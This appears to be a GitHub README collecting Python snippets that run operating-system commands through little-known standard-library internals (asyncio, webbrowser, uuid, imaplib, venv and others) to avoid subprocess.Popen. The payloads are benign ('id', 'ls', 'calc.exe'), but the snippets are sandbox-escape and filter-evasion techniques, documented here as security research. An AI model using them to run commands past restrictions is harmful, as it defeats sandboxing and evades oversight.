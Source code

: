 # python-code-executing-collection
My collection to execute os command without using subprocess.Popen.

### Asyncio
```py
from asyncio import unix_events

unix_events._UnixSubprocessTransport({}, {}, "thunar", True, -1, -1, -1, 1337)
```
```py
from asyncio import unix_events

unix_events._WindowsSubprocessTransport({}, {}, "calc.exe", True, -1, -1, -1, 1337)
```
### webbrowser
```py
import webbrowser

webbrowser.GenericBrowser(['/bin/sh']).open("")
```
### _osx_support
```py
import _osx_support

print(_osx_support._read_output('ls'))
```
### uuid
```py
import uuid

uuid._get_command_stdout("/bin/sh", "-c", "id").read()
```
### imaplib
```py
import imaplib

imaplib.IMAP4_stream("id").open()
```
### venv
```py
import venv

(a := venv.EnvBuilder()) and a.__setattr__("env_exec_cmd", "calc.exe") or a.__setattr__("env_dir", "/mnt/c/Windows/system32") or venv.EnvBuilder()._call_new_python(a)
```
